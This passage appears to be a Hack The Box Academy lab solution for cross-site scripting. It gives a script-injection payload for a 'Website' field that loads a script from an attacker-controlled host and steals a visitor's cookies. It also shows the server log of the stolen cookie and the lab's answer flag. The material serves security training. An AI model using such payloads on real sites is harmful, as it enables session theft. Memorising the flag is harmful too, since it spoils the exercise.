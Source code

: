 At last, students need to use the XSS payload `'><script src=http://PWNIP:PWNPO/script.js></script>` in the "Website" field so that the user clicking the link will request `script.js` and get their cookie stolen:

![[HTB Solutions/CPTS/z. images/b82cc336689fb73955a9a5a253598706_MD5.jpg]]

On the HTTP server, students will notice that the flag `HTB{cr055_5173_5cr1p71n6_n1nj4}` is contained within the cookie value:

```javascript
┌─[us-academy-1]─[10.10.14.41]─[htb-ac413848@htb-nvwebl9plw]─[~]
└──╼ [★]$ php -S 0.0.0.0:9001
[Tue Nov 29 04:14:23 2022] PHP 7.4.30 Development Server (http://0.0.0.0:9001) started
[Tue Nov 29 04:15:15 2022] 10.129.43.173:42532 Accepted
[Tue Nov 29 04:15:15 2022] 10.129.43.173:42534 Accepted
[Tue Nov 29 04:15:15 2022] 10.129.43.173:42532 [200]: (null) /script.js
[Tue Nov 29 04:15:15 2022] 10.129.43.173:42534 [200]: GET /WebsiteField
[Tue Nov 29 04:15:15 2022] 10.129.43.173:42534 Closing
[Tue Nov 29 04:15:15 2022] 10.129.43.173:42532 Closing
[Tue Nov 29 04:15:16 2022] 10.129.43.173:42536 Accepted
[Tue Nov 29 04:15:16 2022] 10.129.43.173:42536 [200]: GET /index.php?c=wordpress_test_cookie=WP%20Cookie%20check;%20wp-settings-time-2=1669695315;%20flag=HTB{cr055_5173_5cr1p71n6_n1nj4}
[Tue Nov 29 04:15:16 2022] 10.129.43.173:42536 Closing
```

Answer: `HTB{cr055_5173_5cr1p71n6_n1nj4}`